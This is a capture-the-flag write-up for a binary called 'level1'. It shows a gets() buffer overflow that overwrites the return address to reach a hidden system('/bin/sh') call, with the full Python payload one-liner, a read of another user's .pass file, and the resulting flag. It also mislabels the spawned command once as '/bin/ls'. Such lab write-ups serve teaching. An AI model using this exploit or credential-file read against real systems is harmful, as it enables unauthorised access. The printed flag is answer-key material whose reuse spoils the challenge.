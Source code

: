 # level1

We find an executable `level1`. We run `gdb level1` to examine it.

`disas main` yields us a very simple main ; it only does a `gets` and exits. `info functions` shows us other functions, and among them, one called `run` ; and `disas run` shows a function that runs a `system("/bin/sh")`.

What can we do here ? The run function we're looking for isn't naturally called by `main`. We'll have to use the `gets` to call `run`. Here's how we can do that :

## **The exploit**

`gets` is famous for being vulnerable to buffer overflows. If you overwrite further than the buffer, you can overwrite certain parts of the stack. Here, we want to overwrite the **return address of the main function** : the `eip` register.

Through experimentation, we find we can overwrite `eip` from character 77 to character 80 of the `gets`. This means writing 76 characters + the desired address will trick the program into going where we want.

We use Python to make our output easier :

```
python -c 'print("A" * 76 + DESIRED_ADDRESS)'
```

`disas run` gave us the address of run : `0x08048444`. We add it to our output, reversing to bytes to account for endianness :

```
python2 -c 'print("A" * 76 + "\x44\x84\x04\x08")'
```

Finally, we have to pipe it into the executable. But there's an issue : when `system("/bin/sh")` is ran, it'll read from `stdin`, and since we're overloading `stdin`, we'll need to add a `cat` in the mix. We run :

```
( python -c 'print("A" * 76 + "\x44\x84\x04\x08")' ; cat ) | ./level1
```

## **The flag**

The `python -c` overflows `gets`, `eip` is filled with the `run` address, `system("/bin/ls")` is ran and our `cat` is asked for a command. We run :

```
cat /home/user/level2/.pass
```

... and get the flag for `level1` :

```
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```